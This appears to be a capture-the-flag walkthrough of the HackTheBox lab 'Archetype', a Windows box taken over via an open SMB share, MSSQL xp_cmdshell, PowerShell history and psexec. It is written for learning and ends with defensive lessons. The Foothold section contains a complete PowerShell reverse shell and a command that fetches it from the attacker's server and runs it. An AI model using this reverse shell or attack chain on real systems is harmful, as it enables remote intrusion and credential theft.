





# HackTheBox — Archetype

Archetype is a Windows box that demonstrates a classic misconfiguration chain: an anonymously accessible SMB share leaks database credentials, which lead to MSSQL command execution, which eventually surfaces plaintext admin credentials hiding in PowerShell history. It's a satisfying box precisely because every step flows naturally from the one before it — no guessing, just following the evidence.

---

## Overview

The attack path here is beautifully linear. We find SQL Server credentials in a backup config file shared over an unauthenticated SMB share. Those creds give us sysadmin on MSSQL, which we leverage to pop a reverse shell via `xp_cmdshell`. Once on the box, a quick look at the user's PowerShell command history hands us the administrator password in plaintext. Full compromise in four steps.

**Box details:**
- **OS:** Windows Server 2019 Standard (Build 17763)
- **IP:** <TARGET>

---

## Reconnaissance

### Port Scanning

I started with a default Nmap service/version scan. No reason to go aggressive on a lab box — the `-sC -sV` combo gives us service enumeration and runs the standard NSE scripts, which is usually enough to identify interesting attack surface.

```bash
nmap -sC -sV $TARGET
```




Three services immediately stand out:

- **SMB (445)** — Guest access is on and message signing is disabled. Worth enumerating shares.
- **MSSQL (1433)** — SQL Server 2017, almost certainly a path to code execution if we can get credentials.
- **WinRM (5985)** — If we land valid credentials, this gives us a remote PowerShell session via `evil-winrm`.

### SMB Enumeration

The disabled message signing on SMB is a flag worth noting (it opens relay attack opportunities), but more immediately useful is the guest access. Let's see what shares are exposed.

```bash
smbclient -L //$TARGET/ -N
```




The `backups` share stands out — it's not a default Windows share. Let's connect anonymously and see what's inside.

```bash
smbclient //$TARGET/backups -N
```

Inside, there's a single file: `prod.dtsConfig`. The `.dtsConfig` extension is an SSIS (SQL Server Integration Services) configuration file — and these are notorious for containing database connection strings in plaintext. I grabbed it immediately.

```bash
get prod.dtsConfig
```

Opening the file reveals exactly what we were hoping for:

```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." />
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property"
        Path="\Package.Connections[OLEDB Connection Manager].Properties[ConnectionString]"
        ValueType="String">
        <ConfiguredValue>
            Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;
            Initial Catalog=Catalog;Provider=SQLNCLI10.1;
            Persist Security Info=True;Auto Translate=False;
        </ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Credentials in hand: `ARCHETYPE\sql_svc` / `M3g4c0rp123`.

---

## Foothold

### Connecting to MSSQL

With valid credentials and an exposed SQL Server, the next step is connecting and checking our privilege level. Impacket's `mssqlclient` handles Windows authentication cleanly.

```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@$TARGET -windows-auth
```

Once connected, I checked our server role:

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
```

The result comes back as `1` — we're sysadmin. This is significant: the `sql_svc` service account has been granted the highest SQL Server privilege level, which means we can enable `xp_cmdshell` and execute operating system commands directly.

### Enabling xp_cmdshell

`xp_cmdshell` is disabled by default in modern SQL Server installations but can be re-enabled by a sysadmin. It's a stored procedure that lets you run arbitrary OS commands as the SQL Server service account. This is why sysadmin on MSSQL is effectively equivalent to OS command execution.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Quick verification to confirm it's working:

```sql
EXEC xp_cmdshell 'whoami';
```




We have command execution as `archetype\sql_svc`.

### Getting a Reverse Shell

Running commands through `xp_cmdshell` interactively is functional but awkward. I wanted a proper shell. The plan: host a PowerShell reverse shell script on a local HTTP server, then have the target fetch and execute it.

First, I created a minimal reverse shell script (`shell.ps1`):

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<VPN_IP>', 4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
}
$client.Close()
```

Then I set up the Python HTTP server and Netcat listener:

```bash
# Terminal 1 — serve the shell script
python3 -m http.server 80

# Terminal 2 — listen for the callback
rlwrap nc -lvnp 4444
```

Back in the MSSQL session, I triggered the download and execution in one command:

```sql
EXEC xp_cmdshell 'powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString(''http://<VPN_IP>/shell.ps1'')"';
```

The Python server logged the request, and a few seconds later Netcat caught the shell:

```
connect to [<VPN_IP>] from (UNKNOWN) [<TARGET>] 49678
PS C:\Windows\system32>
```

We're in.

---

## Privilege Escalation

### Hunting for Credentials

With a shell as `sql_svc`, the immediate goal is finding a path to Administrator. I started with some quick situational awareness — checking privileges, local group memberships, and any interesting files in the user's home directory.

One of my go-to checks on Windows boxes is PowerShell command history. The `PSReadLine` module (enabled by default since PowerShell 5) saves every command run in the console to a plaintext file. Administrators frequently run commands with credentials as arguments, and those get logged here permanently. It's a goldmine that's surprisingly often overlooked.

The history file lives at a predictable path:

```powershell
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```




There it is: `administrator` / `MEGACORP_4dm1n!!` — passed directly on the command line when someone mapped that backup drive. This is exactly why you should never put credentials in command-line arguments; they end up in shell history, process lists, event logs, and anywhere else the OS decides to record what you ran.

### Getting a SYSTEM Shell

With administrator credentials confirmed, `impacket-psexec` is the cleanest way to land a privileged shell. It authenticates over SMB, uploads a service binary, and drops us into a SYSTEM-level cmd.

One note on the password: the `!` character is special in bash and will cause history expansion issues if you're not careful. Using an interactive password prompt (or wrapping in single quotes) avoids headaches here.

```bash
impacket-psexec administrator@$TARGET
```

When prompted, enter `MEGACORP_4dm1n!!`.




Full compromise. Both flags are readable from the standard locations:

- **User flag:** `C:\Users\sql_svc\Desktop\user.txt` — [redacted]
- **Root flag:** `C:\Users\Administrator\Desktop\root.txt` — [redacted]

---

## Lessons Learned

**SSIS config files are credential treasure chests.** `.dtsConfig` files are designed to store database connection information for SQL Server Integration Services packages, and they store that information in plaintext XML. Finding one in an exposed SMB share is a critical finding in any real engagement — it suggests the organization doesn't treat these files as sensitive secrets.

**PowerShell history is often overlooked in hardening.** `ConsoleHost_history.txt` persists indefinitely and is readable by the account that created it. Defenders should consider whether PSReadLine history needs to be retained at all, and administrators should absolutely never pass credentials as command-line arguments. Use credential managers, not command-line flags.

**MSSQL sysadmin = OS command execution.** This is a fundamental SQL Server security principle. The moment a user has sysadmin privileges, assume they can run arbitrary commands on the underlying OS via `xp_cmdshell`. Service accounts should run with the minimum necessary database permissions — never sysadmin unless explicitly required.

**`impacket-psexec` is reliable but noisy.** It works great in lab environments, but in a real engagement it's one of the most-signatured attack tools out there. It uploads a binary to `ADMIN$`, creates a service, runs it, then cleans up — every one of those actions is logged and alerts on properly monitored infrastructure. Knowing the tool is important; knowing when not to use it is equally important.

**Mind your special characters.** The `!` in `MEGACORP_4dm1n!!` triggers bash history expansion when passed in double quotes or unquoted. Either use single quotes around the password or let the tool prompt you interactively to avoid cryptic authentication failures that look like wrong credentials.
